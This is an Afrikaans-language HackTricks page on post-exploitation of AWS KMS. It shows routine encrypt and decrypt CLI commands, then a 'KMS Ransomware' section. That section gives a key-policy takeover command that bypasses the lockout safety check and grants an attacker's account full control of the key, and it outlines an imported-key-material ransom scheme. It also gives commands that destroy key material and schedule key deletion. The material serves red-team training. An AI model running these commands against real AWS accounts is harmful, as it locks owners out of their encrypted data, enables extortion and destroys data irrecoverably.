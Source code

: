 # AWS - KMS Na-exploit Post

<details>

<summary><strong>Leer AWS hakwerk vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

## KMS

Vir meer inligting kyk:

{% content-ref url="../../aws-security/aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../../aws-security/aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### Versleutel/Ontsleutel inligting

* Deur 'n **simmetriese** sleutel
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* Gebruik 'n **asimmetriese** sleutel:
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
{% hint style="warning" %}
Indien die fout 'An error occurred (InvalidCiphertextException) when calling the Decrypt operation:' ontvang word wanneer jy probeer om kms decrypt uit te voer, probeer **`--ciphertext-blob file://`** gebruik in plaas van **`fileb://`**.

Die gebruik van **`file://`** gee jou die gerief om lêers in jou voorkeurkodering te gebruik wanneer jy die CLI gebruik.
In weergawes 1.6.3 en hoër van die CLI, het jy toegang tot 'n ander manier om die inhoud van 'n lêer aan die CLI oor te dra, **`fileb://`**. Dit werk soortgelyk aan **`file://`**, maar in plaas daarvan om die inhoud van die lêer as teks te lees, word dit as binêr gelees.

Vir die meeste gevalle sal **`file://`** jou gebruiksaanwysing bevredig vir die oordra van die inhoud van 'n lêer as inset. Daar is egter gevalle waar **`fileb://`** gebruik moet word om die inhoud van die lêer as binêr oor te dra eerder as as teks.
Lees meer van AWS hier: [AWS Blog - Best Practice for Local File Parameters](https://aws.amazon.com/blogs/developer/best-practices-for-local-file-parameters/)
{% endhint %}

### KMS Ransomware

'n Aanvaller met bevoorregte toegang oor KMS kan die KMS-beleid van sleutels wysig en **sy rekening toegang daartoe verleen**, deur die toegang wat aan die regmatige rekening verleen is, te verwyder.

Daarna sal die regmatige rekeninggebruikers nie enige inligting van enige diens kan toegang wat met daardie sleutels versleutel is nie, wat 'n maklike maar doeltreffende afpersingsware oor die rekening skep.

{% hint style="warning" %}
Let daarop dat **AWS bestuurde sleutels nie geraak word** deur hierdie aanval nie, slegs **Klant bestuurde sleutels**.

Let ook op die behoefte om die parameter **`--bypass-policy-lockout-safety-check`** te gebruik (die afwesigheid van hierdie opsie in die webkonsol maak hierdie aanval slegs moontlik vanaf die CLI).
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
Let wel dat as jy daardie beleid verander en slegs toegang gee aan 'n eksterne rekening, en dan vanaf hierdie eksterne rekening probeer om 'n nuwe beleid in te stel om **die toegang terug te gee aan die oorspronklike rekening, sal jy nie in staat wees om dit te doen nie**.
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Generiese KMS Ransomware

#### Globale KMS Ransomware

Daar is 'n ander manier om 'n globale KMS Ransomware uit te voer, wat die volgende stappe sou behels:

* Skep 'n nuwe **sleutel met sleutelmateriaal** wat deur die aanvaller ingevoer is
* **Her-enkripteer oudere data** wat met die vorige weergawe versleutel is met die nuwe een.
* **Verwyder die KMS-sleutel**
* Nou kan slegs die aanvaller, wat die oorspronklike sleutelmateriaal het, die versleutelde data ontsluit

### Vernietig sleutels
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
Let wel dat AWS nou **voorkom dat die vorige aksies uitgevoer word vanaf 'n kruisrekening:**
{% endhint %}

<figure><img src="../../../. gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

<details>

<summary><strong>Leer AWS hak vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling van eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag. 

</details>
